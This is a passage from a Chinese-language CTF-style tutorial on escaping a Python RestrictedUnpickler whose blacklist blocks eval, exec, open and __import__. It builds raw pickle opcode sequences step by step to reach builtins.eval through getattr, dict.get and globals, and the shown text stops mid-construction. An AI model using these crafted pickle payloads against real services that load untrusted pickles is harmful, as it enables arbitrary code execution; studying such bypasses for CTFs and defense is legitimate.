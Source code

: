 分析工具分析
[![JFh678.png](https://s1.ax1x.com/2020/04/16/JFh678.png)](https://imgchr.com/i/JFh678)

在上下文中没有import os 的情况下 如下图
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200412092722835.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70#pic_center)
#### 例子二

存在限制 万桶金 **builtins.getattr('builtins', 'eval')**
```Python
class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}

    def find_class(self, module, name):
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

一、 转化
```python
目标
getattr(dict.get(globals(),"__builtins__"),"eval")
转化
__builtins__.getattr(__builtins__.dict,"get")(__builtins__.globals(),"__builtins__") #->p1("builtins")
```
二 、构造
```python
① __builtins__.getattr

(cbuiltins
getattr
```

```python
② (__builtins__.dict,"get")

(cbuiltins
dict
S'get'
t
```

```python
③ __builtins__.getattr(__builtins__.dict,"get")

(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR
```

```python
④ (__builtins__.globals(),"__builtins__")

(cbuiltins
globals
(tRS'__builtins__'
t
```
